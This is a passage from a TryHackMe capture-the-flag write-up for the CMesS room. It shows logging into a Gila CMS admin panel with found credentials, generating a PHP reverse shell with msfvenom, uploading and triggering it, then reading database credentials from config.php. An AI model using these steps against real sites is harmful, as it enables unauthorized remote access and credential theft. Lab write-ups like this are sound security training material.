![pic](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/CMesS/images/a1.png)

Since we now have the andre credential, we can login to the Gila CMS admin panel with his email and password.

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/CMesS/images/a2.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/CMesS/images/a3.png)

# Initial Shell:

Now we have control of the admin panel, we can now upload a reverse shell in `Content` -> `File Manager`.

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/CMesS/images/a4.png)

First, generate a php reverse shell via `msfvenom`:

```
┌──(root💀nam)-[~/ctf/thm/ctf/CMesS]
└─# msfvenom -p php/reverse_php LHOST=tun0 LPORT=443 -o shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3036 bytes
Saved as: shell.php
                                                                                                                        
┌──(root💀nam)-[~/ctf/thm/ctf/CMesS]
└─# cp shell.php /home/nam/Downloads
```

Then, upload the reverse shell:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/CMesS/images/a5.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/CMesS/images/a6.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/CMesS/images/a7.png)

Finally, setup a listener and trigger it via browsing `http://cmess.thm/assets/shell.php`.

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/CMesS/images/a8.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/CMesS/images/a9.png)

# Privilege Escalation:

## www-data to andre:

In the "File Manager", we can also see there is a `config.php` file, which contains MySQL database configuration, such as user and password.
